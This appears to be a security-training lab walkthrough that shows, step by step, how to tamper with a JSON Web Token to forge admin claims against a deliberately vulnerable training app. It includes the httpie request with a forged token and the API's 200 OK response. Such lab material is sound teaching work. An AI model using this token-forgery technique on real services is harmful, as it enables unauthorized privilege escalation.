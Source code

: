 ## 'none' Signed Token

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.

![](img/login-page.png)


##### Step 3:

* Using `email` and `password` login to the application.

![](img/login-page.png)

##### Step 4:

* Right click on top of the browser and click on `Web Developer`, select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 5:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `token`
    
    ![](img/get_token.png)

#### Step 6:

* Open https://jwt.io/ and paste the token. Tamper the value in Payload section to 


    {
    "username": "admin",
    "role": "admin",
    "email": "admin@widget.co"
    }


![](img/tamper-jwt.png)


##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)

##### Step 8:

* Run ` http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<paste the copied token>`

```commandline
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 25 Sep 2018 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```
